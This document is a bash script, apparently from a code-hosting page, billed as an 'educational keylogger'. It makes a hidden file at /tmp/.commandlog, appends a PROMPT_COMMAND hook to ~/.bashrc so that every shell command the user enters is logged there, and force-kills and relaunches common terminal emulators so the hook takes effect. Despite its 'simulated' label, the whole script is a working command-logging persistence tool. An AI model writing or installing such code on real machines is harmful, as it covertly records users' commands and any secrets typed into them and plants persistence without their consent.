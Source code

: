 #!/bin/bash

# Simulated Command Logger (Educational Keylogger)
# Logs user shell commands and restarts terminal

LOG_FILE="/tmp/.commandlog"
BASHRC="$HOME/.bashrc"
LOGGER_LINE='export PROMPT_COMMAND='\''history -a >(tee -a /tmp/.commandlog)'\'''

echo "[*] Installing simulated keylogger..."

# Step 1: Create hidden log file
touch "$LOG_FILE"
chmod 600 "$LOG_FILE"

# Step 2: Add logger to .bashrc if not already present
if ! grep -Fxq "$LOGGER_LINE" "$BASHRC"; then
  echo "$LOGGER_LINE" >> "$BASHRC"
  echo "[*] Logger added to .bashrc"
else
  echo "[*] Logger already exists in .bashrc"
fi

# Step 3: Restart terminal (for most terminal emulators)
TERMINAL_APP=$(ps -o comm= -p $(pgrep -n -u "$USER" bash))

echo "[*] Restarting terminal..."

# Try closing and reopening the terminal
sleep 1

# Detect and relaunch common terminals
if pgrep -x gnome-terminal > /dev/null; then
  pkill -f gnome-terminal
  nohup gnome-terminal & disown
elif pgrep -x xfce4-terminal > /dev/null; then
  pkill -f xfce4-terminal
  nohup xfce4-terminal & disown
elif pgrep -x konsole > /dev/null; then
  pkill -f konsole
  nohup konsole & disown
else
  echo "[!] Could not auto-restart terminal. Please reopen it manually."
fi

echo "[*] Done. Commands will now be logged to $LOG_FILE"
